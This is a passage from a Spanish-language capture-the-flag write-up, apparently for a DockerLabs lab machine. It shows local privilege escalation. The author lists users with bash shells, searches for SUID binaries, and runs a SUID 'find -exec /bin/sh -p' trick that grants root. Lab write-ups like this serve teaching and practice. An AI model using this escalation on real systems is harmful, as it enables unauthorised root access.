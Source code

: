 ## Privilege Escalation

```terminal
carlos@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
carlos:x:1000:1000:,,,:/home/carlos:/bin/bash
```

Busco archivos con el bit SUID, que permiten ejecutar programas con los privilegios del propietario del archivo.

```terminal
carlos@kali:~$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/find
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

<https://gtfobins.github.io/gtfobins/find/#suid>

![](assets/img/dockerlabs-writeup-mirame/mirame4_1.png)

Utilizo ```find``` con un comando ```-exec``` que ejecuta ```/bin/sh``` en un entorno con privilegios elevados ```-p```, lo que me otorga privilegios de administrador en el sistema.

```terminal
carlos@kali:~$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(carlos) gid=1000(carlos) euid=0(root) groups=1000(carlos),100(users)
```
